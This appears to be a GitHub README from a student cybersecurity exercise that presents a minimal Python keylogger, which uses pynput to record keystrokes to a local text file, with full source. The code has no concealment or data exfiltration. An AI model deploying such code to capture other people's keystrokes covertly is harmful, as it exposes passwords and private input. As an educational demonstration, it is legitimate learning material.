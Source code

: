 # PRODIGY_CS_04
## Description 📋
The Simple Keylogger is a straightforward program designed to record keystrokes on a computer. This project demonstrates the basics of capturing and logging keyboard input using Python, leveraging the pynput library for seamless interaction with the keyboard.

## How It Works ❓
Keyboard Listener: The keylogger initializes a listener that continuously monitors keyboard events.
Keystroke Capture: When a key is pressed, the program captures the event and attempts to log the character.
Data Logging: The captured keystrokes are appended to a text file (keyfile.txt), providing a record of all input activity.

## Key Features 🔑
- **Real-time Monitoring:** The listener operates in real-time, ensuring all keystrokes are captured as they occur.
- **File Logging:** Each keystroke is stored in a file, enabling persistent logging and easy review.
- **Error Handling:** The program includes basic error handling to manage non-character key events gracefully.

## Code 📃
```
from pynput import keyboard

def keyPressed(key):
    print(str(key))
    with open("keyfile.txt", 'a') as logKey:
        try:
            char = key.char
            logKey.write(char)
        except:
            print("Error getting char")

if __name__ == "__main__":
    listener = keyboard.Listener(on_press=keyPressed)
    listener.start()
    input()
```
